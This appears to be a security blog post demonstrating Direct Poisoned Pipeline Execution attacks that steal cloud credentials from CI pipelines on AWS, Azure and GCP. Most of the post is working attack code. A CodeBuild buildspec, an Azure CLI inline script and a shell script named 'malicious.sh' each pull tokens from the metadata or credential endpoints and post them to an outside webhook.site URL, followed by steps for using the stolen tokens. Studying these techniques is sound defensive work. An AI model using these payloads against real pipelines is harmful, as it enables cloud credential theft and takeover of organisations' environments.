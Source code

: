 ```yaml
---
title: "Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP"
date: 2025-09-26T22:15:00+04:00
tags: ["Azure","AWS","GCP","DevOps","DevSecOps","pipeline","Poisoned Pipeline Execution","Direct-PPE"]
description: "In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments."
cover:
    image: "posts/directppe/img/cover.png"
    alt: "Direct-PPE"
    relative: false
    hidden: false
    responsiveImages: true
---
```

# Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP
In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments.

## Direct-PPE
First, let’s clarify what Direct Poisoned Pipeline Execution (Direct-PPE) means and outline the breach scenario we’ll use to demonstrate how attackers can leverage it to further compromise cloud environments like AWS, Azure, and GCP.

Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.

We have three types of PPE
- Direct PPE (D-PPE) : This occurs when an attacker gains direct access to the pipeline configuration. For example, they might obtain a personal access token (PAT), valid user credentials, or even a session cookie for the SCM platform, giving them the ability to modify and execute malicious changes in the pipeline configuration.
- Indirect PPE (I-PPE): This means the attacker doesn’t have direct access to the pipeline configuration files but can still compromise the pipeline by injecting malicious code into files referenced by the configuration. Examples include Makefiles, test code, scripts, or automation tools that the pipeline relies on during execution.
- Public-PPE (3PE): This is often the most dangerous scenario. If the CI pipeline of a public repository automatically runs unreviewed code submitted by anonymous contributors, it becomes vulnerable to a Public PPE (3PE) attack. This can lead to exposure of internal assets—such as secrets from private projects—especially when the public repository’s pipeline shares the same CI instance or infrastructure as private repositories.

In the next section, we’ll assume the breach has already occurred, the attacker has access to the SCM, access by having an authentication method to the organization’s source code management. It may be a personal access token (PAT), an SSH key, or any other allowed authentication credential. An example of a method an attacker can use to achieve this technique is using a phishing attack against an organization. We’ll explore how they can escalate privileges further to gain access to cloud environments.

## AWS
![image](/img/aws_killchain.png)

Because we have access to the code repository, we can use the Direct PPE attack vector to enumerate the permissions under which the pipeline is running. This can be done by querying the Instance Metadata Service (IMDS) available in the cloud environment.
In the example pipeline, I’m using webhook.site to exfiltrate captured data.

```yaml
version: 0.2

phases:
  pre_build:
    commands:
      - curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data "$(curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI)"
```
You can manually retrieve the temporary role credentials from inside a container by appending the environment variable to the IP address of the Amazon ECS container agent and running the curl command on the resulting string.
```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```
This token and the role credentials are added to the agent's internal cache. The agent populates the environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI in the container with the URI of the credential ID (for example, /v2/credentials/12345678-90ab-cdef-1234-567890abcdef).

![image](/img/aws_webhook.png)

The exfiltrated token can then be stored in environment variables and used with the AWS CLI to interact with the compromised cloud environment.

![image](/img/awscli1.png)

After gaining initial access, you can begin enumerating the AWS environment to identify pivot points and locate weak spots that can be exploited for further privilege escalation or lateral movement.

![image](/img/awscli2.png)

![image](/img/awscli3.png)


## Azure
![image](/img/azure_killchain.png)

We can easily exfiltrate the Azure DevOps agent access token, enumerate Azure DevOps projects, and search for additional secrets or clues to further escalate our privileges.
If the pipeline configuration contains a service connection, as shown in the upcoming example, we can directly exfiltrate that service connection and pivot into Azure environments in a straightforward way.

```yaml
- task: AzureCLI@2
  inputs:
    azureSubscription: $(azureSubscription)
    scriptType: bash
    scriptLocation: inlineScript
    inlineScript: |
      # Export Azure access token
      ACCESS_TOKEN=$(az account get-access-token --query accessToken -o tsv)
      SUB_ID=$(az account show --query id -o tsv)
      curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type: text/plain' --data "ACCESS_TOKEN=$ACCESS_TOKEN SUB_ID=$SUB_ID"
```

![image](/img/azure_webhook.png)

Decode the JWT using JWT.io and under decoded payload section, note the value of field titled tid which will be the Account Id/Tenant ID.
- Tenant ID will also appear in other values as well.
- Additionally, subscription ID, resource group , and resource name will be present too.

![image](/img/azurecli.png)

Install Azure PowerShell module with the below command
```
Install-Module -Name Az -Repository PSGallery -Force
```

Run below PowerShell commands to authenticate with the
Azure Cloud using the exfiltrated Identity Token and the
Account ID (from decoding the JWT)

![image](/img/azurecli.png)

We have successfully established a connection to Azure, allowing us to continue with the post-exploitation process and expand our access within the environment!

## GCP
![image](/img/gcp_attackchain.png)

Just like AWS and Azure, GCP also provides a metadata service. We can leverage it in the same way to retrieve and exfiltrate access tokens for further use in the attack chain.

Create a Shell script file named malicious.sh in the root
directory of the source code. Using this file we’ll exfiltrate the
default service account token to the webhook dashboard.
```bash
#!/bin/sh
apt update && apt install curl -y
token=$(curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google")
echo $token > token.txt
curl -X POST 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data '@token.txt'
```
Create a new build stage in cloudbuild.yaml file with the below
configurations.
```
- name: 'ubuntu'
args: ['bash', './malicious.sh']
```
![image](/img/gcp_webhook.png)

Use below command to inspect the details of an OAuth 2.0
access token issued by Google's IAM services.
```
curl https://oauth2.googleapis.com/tokeninfo?access_token=<EXFILTRATED_TOKEN>
```
![image](/img/gcpcli1.png)

Then we can enumerate the GCP project metadata with the
below command. It will give us the Project ID & other information.

![image](/img/gcpcli2.png)

We have successfully established a connection to GCP, allowing us to continue with the post-exploitation process and expand our access within the environment!

# Summary
This post explains how attackers can abuse Direct Poisoned Pipeline Execution (Direct-PPE) to steal credentials and escalate privileges in AWS, Azure, and GCP environments. Direct-PPE occurs when an attacker gains access to a source code management (SCM) system (e.g., via stolen credentials or a PAT) and modifies the pipeline configuration to run malicious commands.
Overall, the post highlights how attackers can pivot from SCM access to full cloud environment compromise using poisoned pipeline techniques.





